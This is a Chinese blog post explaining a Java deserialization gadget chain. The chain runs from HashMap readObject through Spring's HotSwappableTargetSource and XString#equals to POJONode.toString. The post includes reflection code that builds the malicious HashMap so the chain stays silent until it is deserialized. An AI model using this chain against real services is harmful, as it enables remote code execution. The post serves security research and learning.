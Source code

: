 ```yaml
---
layout: post
title: hashmap反序列化#equals
categories: [blog ]
tags: [Java,]
description: ""
image:
  feature: windows.jpg
  credit: JYcxk
  creditlink: azeril.compu
---
```




```java
   HashMap hashMap = new HashMap();
        setFieldValue(hashMap, "size", 2);
        Class nodeC;

        nodeC = Class.forName("java.util.HashMap$Node");
        Constructor<?> nodeCons = nodeC.getDeclaredConstructor(int.class, Object.class, Object.class, nodeC);
        nodeCons.setAccessible(true);

        Object tbl = Array.newInstance(nodeC, 2);
        //创建一个数组

        Array.set(tbl, 0, nodeCons.newInstance(0, h1, "whatever", null));
        Array.set(tbl, 1, nodeCons.newInstance(0, h2, "whatever", null));
        setFieldValue(hashMap, "table", tbl);
        serialize(hashMap);

        unserialize("ser.bin");
```

利用了反射的手段进行赋值，防止了序列化的时候进入equals方法执行命令。

### 解决一下以前的困扰

为啥不能直接hashmap#readObject--->XString#equals()方法，需要一个中间类

`org.springframework.aop.target.HowSwappableTargetSource#equals`

因为如果只利用XString的话，如果要满足hash相等说明key的值就相同，XString类中重写了hashcode方法，是计算str(_obj)的值，_obj是通过XString构造方法获得的，所以到这里obj2依然是XString类型

![image-20231126170809794](..\img\final\image-20231126170809794.png)

org.springframework.aop.target.HowSwappableTargetSource也重写了hashcode方法，并且hashcode基本相当于固定的

他这里关键是获得某个类的target属性，这样就很nice

通过这里触发 XString#equals,然后触发obj2.toString，二个参数就是二个类的target

![image-20231126170515867](..\img\final\image-20231126170515867.png)



这里就会明了了

首先触发 h2.equals(h1) --->h2.equals(h1)-->Xstring.equals(pojoNode2)-->pojoNod2.toString

```java
HotSwappableTargetSource h1 = new HotSwappableTargetSource(pojoNode2);
HotSwappableTargetSource h2 = new HotSwappableTargetSource(new XString("whatever"));

        // 手动构造 HashMap 以防触发正向利用链
        HashMap hashMap = new HashMap();
        setFieldValue(hashMap, "size", 2);
        Class nodeC;
        nodeC = Class.forName("java.util.HashMap$Node");
        Constructor<?> nodeCons = nodeC.getDeclaredConstructor(int.class, Object.class, Object.class, nodeC);
        nodeCons.setAccessible(true);
        Object tbl = Array.newInstance(nodeC, 2);
        Array.set(tbl, 0, nodeCons.newInstance(0, h1, "whatever", null));
        Array.set(tbl, 1, nodeCons.newInstance(0, h2, "whatever", null));
        setFieldValue(hashMap, "table", tbl);
```

## 最后

是判断key的hash，相等了才触发equals方法

![image-20231126171822128](..\img\final\image-20231126171822128.png)

31默认的hashcode计算，这个无需多言了

![image-20231126172100020](..\img\final\image-20231126172100020.png)
